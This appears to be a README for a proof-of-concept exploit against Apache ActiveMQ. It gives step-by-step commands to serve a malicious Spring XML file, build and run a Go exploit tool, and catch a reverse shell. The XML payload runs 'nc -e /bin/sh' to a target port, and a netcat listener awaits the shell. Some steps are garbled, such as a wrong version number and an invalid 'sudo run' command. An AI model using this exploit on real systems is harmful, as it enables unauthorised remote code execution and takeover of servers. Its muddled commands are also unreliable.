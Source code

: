 # POC

**Ready to environment:**

1. Download Active MQ 18.0.0 Release fromhere:
https://activemq.apache.org/activemq-5018000-release

2.Install the Active MQ based on instructions, you can use it:
https://www.techbeginner.in/2019/12/how-to-install-apache-activemq-on-ubuntu-16-04.html

3. Tested on Kali (Debian) current distribution.

**Build POC:**

 1. $ python3 -m http.server 8001 (where the .xml poc file)
 2. $ sudo go build main.go (build & run go file)
 3. $ sudo run main.go
 4. $ systemctl status activemq  (Check the Activemq service is up)
 5. Check the values tags on xml file as:

                <value>sh</value>
                <value>-c</value>
                <value>nc -e /bin/sh <target_ip> 4444</value>
6. Check the values the default values. You don't need to review it:
	- flag.StringVar(&ip, "i", "", "ActiveMQ Server IP or Host")
	- flag.StringVar(&port, "p", "61616", "ActiveMQ Server Port")
	- flag.StringVar(&url, "u", "", "Spring XML Url")\n
	- flag.Parse()

**Run POC:**

7. $ ./main -i <target_ip> -u http://127.0.0.1:8001/poc-linux.xml
8.  $ nc -lvnp 4444 (listening for reverse shell)
